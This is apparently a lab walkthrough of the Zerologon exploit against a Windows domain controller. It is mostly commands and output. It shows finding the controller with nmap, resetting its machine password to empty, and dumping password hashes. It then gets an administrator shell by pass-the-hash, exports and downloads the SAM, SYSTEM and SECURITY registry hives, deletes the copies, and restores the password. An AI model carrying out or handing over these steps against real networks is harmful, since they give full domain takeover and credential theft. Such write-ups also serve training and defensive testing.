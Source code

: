 # ZEROLOGON Instructions:

## Before you begin:

1. you need the Domain Name for the Windows Domain Controller you are attacking
2. you need the NetBIOS Name (PC name) for the Windows Domain Controller you are attacking
3. you need the IP address for the Windows Domain Controller you are attacking
**That is all!!**

## Nmap to the rescue:
### Find the DC specifically:
All domain controllers listen on port 389
```
sudo nmap -p389 -sV 192.168.1.28
```
sudo nmap -p389 -sV 192.168.1.28
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-15 22:25 PDT
Nmap scan report for 192.168.1.28
Host is up (0.00037s latency).

PORT    STATE SERVICE VERSION
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: zerologon.learn.now, Site: Default-First-Site-Name)
MAC Address: 08:00:27:AA:C2:F6 (Oracle VirtualBox virtual NIC)
Service Info: Host: ZEROLOGON-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.45 seconds


## change directory to the zerologon exploit folder:

```
cd ~/zerologon
```

## 1st run set_empty_pw.py to exploit the machine:

this will set the password to an empty string
python3 set_empty_pw.py <NetBIOS-name> <IP-Address>
```
python3 set_empty_pw.py ZEROLOGON-DC 192.168.1.28
```
look for:
Success! DC should now have the empty string as its machine password.


## 2nd run secretsdump.py to dump the hashes:
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 <Domain>/<NETBIOS-name>\$@<IP-Address>
it is important to have \$@ in between the NetBIOS name and the IP 

```
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 ZEROLOGON/ZEROLOGON-DC\$@192.168.1.28
```

looking for:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:06ebd4bf3fa4fe306259c45e389dc976:::


## 3rd run wmiexec.py to get terminal on victim machine:

ZEROLOGON/Administrator@192.168.1.28
wmiexec.py <Domain>/<user-name>@<IP-Address> -hashes <administrator-hash>

```
wmiexec.py ZEROLOGON/Administrator@192.168.1.28 -hashes aad3b435b51404eeaad3b435b51404ee:06ebd4bf3fa4fe306259c45e389dc976
```

Looking for:
C:\>


## Commands to run once on victim machine:
```
verify who you are logged in as:
C:\>whoami
zerologon\administrator

verify the system you are logged into:
C:\>hostname
ZEROLOGON-DC

Prep logon credentials for download:
C:\>reg save HKLM\SYSTEM system.save
The operation completed successfully.

C:\>reg save HKLM\SAM sam.save
The operation completed successfully.

C:\>reg save HKLM\SECURITY security.save
The operation completed successfully.

Download logon credentials:
C:\>get system.save
[*] Downloading C:\\system.save

C:\>get sam.save
[*] Downloading C:\\sam.save

C:\>get security.save
[*] Downloading C:\\security.save

Clean up:
C:\>del /f system.save
C:\>del /f sam.save
C:\>del /f security.save
```

## Exit out and go back to Linux terminal: 

```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

Looking for:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:06ebd4bf3fa4fe306259c45e389dc976:::

## Restore the original password:
python3 reinstall_original_pw.py <NetBIOS-name> <IP-Address> <admin-hash>
```
python3 reinstall_original_pw.py ZEROLOGON-DC 192.168.1.28 aad3b435b51404eeaad3b435b51404ee:6d4a95ae230e5ce2c1dbfd780e340cbc
```
